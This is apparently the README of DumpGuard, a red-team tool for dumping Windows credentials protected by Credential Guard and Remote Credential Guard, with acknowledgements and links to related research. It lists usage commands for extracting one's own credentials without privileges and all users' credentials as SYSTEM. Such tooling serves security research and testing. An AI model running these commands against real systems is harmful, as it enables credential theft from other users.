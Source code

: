 # DumpGuard

![Usage Scenarios](usages.png)

## Dumping Own Credentials Protected By Credential Guard
Privilege Requirement: **None**.

```
DumpGuard.exe /mode:self /domain:<DOMAIN> /username:<SAMACCOUNTNAME> /password:<PASSWORD>
```

## Dumping All Credentials Protected By Credential Guard
Privilege Requirement: **SYSTEM**.

```
DumpGuard.exe /mode:all /domain:<DOMAIN> /username:<SAMACCOUNTNAME> /password:<PASSWORD>
```

## Dumping All Credentials Protected By Remote Credential Guard
Privilege Requirement: **SYSTEM**.

```
DumpGuard.exe /mode:all
```

## Acknowledgements

Thank you to [SpecterOps](https://specterops.io/) for supporting this research and to my coworkers who have helped with its development.
- [Elad Shamir](https://twitter.com/elad_shamir) for inspiring this tool and research, and for offering valuable perspective and encouragement whenever I hit a wall.
- [Evan McBroom](https://github.com/EvanMcBroom) for sharing useful insights on LSA internals and providing ASN.1 encoders for most of the protocols used in the project

## Related Work

- [Oliver Lyak](https://github.com/ly4k) ([2022](https://research.ifcr.dk/pass-the-challenge-defeating-windows-defender-credential-guard-31a892eee22)), for what is, to my knowledge, the only public research on dumping Credential Guard credentials
- [James Forshaw](https://x.com/tiraniddo) ([2022](https://project-zero.issues.chromium.org/issues/42451433), [2022](https://project-zero.issues.chromium.org/issues/42451435), [2022](https://project-zero.issues.chromium.org/issues/42451397), [2022](https://project-zero.issues.chromium.org/issues/42451436)), for vulnerability submissions that slightly documents some of the undocumented interfaces that we have researched
